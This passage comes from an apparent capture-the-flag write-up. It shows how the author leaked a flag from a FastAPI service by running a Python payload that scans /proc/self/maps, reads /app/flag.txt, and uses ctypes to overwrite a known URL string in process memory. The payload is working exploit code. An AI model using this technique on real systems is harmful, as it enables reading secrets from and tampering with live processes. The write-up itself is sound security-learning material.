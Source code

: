     That did not work - the environment/namespace of `PyRun_SimpleString` is different from
    the one where FastAPI methods are defined. I did not dig deep enough to find how to
    get around it.

## What worked: patching strings in RAM

With all the reasonable options off the table, I decided to go the old fashioned way:
in-memory patch some string that we know we can get. The natural candidate was
the YT URL in `/contact/` handler: `https://www.youtube.com/watch?v=dQw4w9WgXcQ.`.
It's got to be there somewhere, right? &#128578;

With a bit of reading about
[ctypes.string_at()](https://docs.python.org/3/library/ctypes.html#ctypes.string_at)
and
[ctypes.memmove()](https://docs.python.org/3/library/ctypes.html#ctypes.memmove),
the Python payload became:

```python
import re
import ctypes

# Read the memory map
with open(f"/proc/self/maps", "r") as maps_file:
    memory_maps = maps_file.readlines()

# Find all the R/W segments
rw_segments = []
for line in memory_maps:
    if "rw" in line.split()[1]:
        match = re.match(r"([0-9a-f]+)-([0-9a-f]+)", line)
        if match:
            start = int(match.group(1), 16)
            end = int(match.group(2), 16)
            rw_segments.append((start, end))

# Read the flag
flag = open("/app/flag.txt", "r").readline()
patch = flag.encode('ascii')

# Replace all the occurences of the YT URL with the flag
for start, end in rw_segments:
    buf = ctypes.string_at(start, end-start)
    # Split in two, to avoid finding itself.
    p1 = b"https://www.youtube.com"
    p2 = b"/watch?v=dQw4w9WgXcQ."
    offset = buf.find(p1+p2)
    if offset != -1:
        ctypes.memmove(start+offset, patch, len(patch))
```

This can be tested in a separate environment - it works.

Then, the flag can be retrieved with a simple
